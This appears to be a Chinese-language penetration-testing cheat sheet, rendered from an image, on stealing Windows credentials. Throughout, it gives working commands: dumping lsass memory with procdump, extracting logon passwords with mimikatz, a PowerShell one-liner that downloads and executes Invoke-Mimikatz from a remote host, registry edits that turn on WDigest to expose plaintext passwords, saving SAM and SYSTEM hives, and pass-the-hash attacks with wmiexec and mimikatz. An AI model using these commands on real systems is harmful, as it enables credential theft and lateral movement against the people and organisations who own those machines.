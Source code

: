 >
> ### mimikatz + procdump 获得内存 hash
>
> 如果服务器是 64 位，要把 Mimikatz 进程迁移到一个 64 位的程序进程中，才能查看 64 位系统密码明文。32 位任意
>
> 运行
>
> > procdump.exe -accepteula -ma lsass.exe lsass.dmp(管理权限)
>
> 后 lsass.dmp 放到 mimikatz.exe 同目录，运行以下命令
>
> > mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
>
> 导出当前 
>
> > mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
>
> > powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
>
> Windows Server 2012, 部分 Windows Server 2008 默认无法使用 mimikatz 导出明文口令
>
> 解决方法：启用 Wdigest Auth, cmd:
>
> > reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
>
> powershell:
>
> > Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
>
> 重启或者用户再次登录，能够导出明文口令, 参考下文：
>
> 3gstudent 自动Dump-Clear-Text-Password-after-KB2871997-installed
>
> > https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed
>
> ### SAM-hash
>
> 管理权限：
>
> > reg save HKLM\SYSTEM Sys.hiv
> >
> > reg save HKLM\SAM Sam.hiv
>
> mimikatz:
>
> > lsadump::sam /sam:Sam.hiv /system:Sys.hiv
>
> ### pass the hash
>
> wmiexec 普通权限即可
>
> > https://github.com/maaaaz/impacket-examples-window																 
>
> > domain=TEST user=test1
> >
> > wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami"
>
> 需要管理权限
>
> > mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 